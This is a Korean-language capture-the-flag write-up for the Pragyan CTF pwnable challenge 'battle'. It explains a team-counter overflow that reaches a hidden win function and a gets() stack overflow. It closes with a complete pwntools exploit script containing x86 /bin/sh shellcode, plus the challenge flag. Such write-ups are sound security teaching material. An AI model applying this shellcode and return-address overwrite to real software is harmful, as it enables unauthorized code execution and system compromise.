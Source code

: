 # _battle_

**Category:** _Pwnable_

**Source:** _Pragyan CTF_

**Points:** _150_

**Author:** _galaxy(김경환)_

**Description:** 

> None
(ctf가 종료 된 후 웹페이지에서 문제들을 지움 서버는 살아있음)

## Point
- _shellcode_
- _bof_

## Write-up

![checksec](resource/checksec.png)

모든 옵션이 꺼져 있음

shellcode 삽입 후 bof로 shellcode 실행이 가능

binary를 실행해 보면 A, F, Q 로 선택가능한 메뉴가 있고

A = 팀원 추가
F = Fight(점수 측정??)
Q = Quit

binary를 다양하게 테스트해보니 특이한점이 발견됨

A로 게속해서 팀원을 추가하면 9/8까지 추가가 가능함

![main](resource/main.png)

ida가 깔끔하게 decompile해주지 않았음(7 version 쓰면 잘 나오려나....)

![A_command](resource/A.png)

A command 부분임

malloc으로 256만큼의 크기를 할당 받고 그 부분에 A 뒤에 입력한 team memeber를 strcpy 함

특정위치(&v13+ (blablabla.....))에 위에서 받은 rand값을 입력 

F command를 보내면 fight를 호출 argument로 멤버수와 위의 rand값이 들어있는 특정위치가 전달됨

![fight](resource/fight.png)

특정위치를 기준으로 멤버수만큼 값을 더함

//앞에서 특정위치가 선언될때 int로 선언되어 있고 32byte를 malloc받았었음 그래서 총 9명의 팀원을 받으면 이부분이 boundary over가 될것 같았는데 실제 값들은 1byte씩 입력되고 1byte씩 계산됨 - ida가 잘못 decompile했다고 추측

모두 더한 값이 400이 되면 win함수를 호출

팀원을 8/8까지만 채우면 400이 절대 나올 수 없음

test로 9/8까지 했을 때 team member로 입력 된 값이 총 9byte만큼 더해져서 400과 비교됨

따라서 앞의 8번까지는 아무값이나 넣어주고 마지막 9번째에서는 team member로 9byte합 400이 나오게 입력(",,,,,,,,0")

win 함수 호출 가능

![win](resource/win.png)

gets로 받은 값이 "WinnersOnlyAllowed"와 비교해서 맞으면 

gets로 입력하는 곳의 주소가 출력됨

"WinnersOnlyAllowed"와 다르면 문자열이 출력됨

main에서 while로 무한정 반복하기 때문에 win을 여러번 호출 가능

gets로 값을 입력받기 때문에 bof가능

또한 입력받는곳의 공간이 0x70으로 shellcode를 입력하기에 충분함

따라서 처음에는 문자열을 올바르게 입력해서 buffer의 주소를 알아내고

win을 한번 더 호출해서 buffer에 shellcode입력과 ret위치에 buffer의 주소를 덮어써서 shellcode실행

shell을 띄운 후 flag 출력
(root로 이동한 듯보이는데 flag가 보이지않아 처음에 당황
home에 battle도 없어서 find로 flag를 검색
bin에 flag.txt가 있어서 cat으로 출력 함)

```python
from pwn import *

if __debug__:
	script='''b* 0x80492fb
	c
	'''
	p=gdb.debug('./battle',script)
	# p=process('./battle')
else:
	p=remote('ctf.pragyan.org',12500)
	
for i in range(8):
	p.sendafter('/8\n',"A a\n")

p.sendafter('/8\n',"A ,,,,,,,,0\n")
p.sendafter('/8\n','F\n')
p.sendafter('leaderboard: ','WinnersOnlyAllowed\n')
p.recvuntil('Leaderboard: 0x')
addr=int(p.recv(8),16)
print('leaderboard addr = '+hex(addr))
shellcode='\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
dummy='\x90'*(112-len(shellcode))

p.sendafter('/8\n','F\n')
p.sendafter('leaderboard: ',shellcode+dummy+p32(addr)+'\n')
p.interactive()
p.close()
```


Flag : p_ctf{Y0u_w1n_s0me_aND_u_l0ose_sOm3}

## References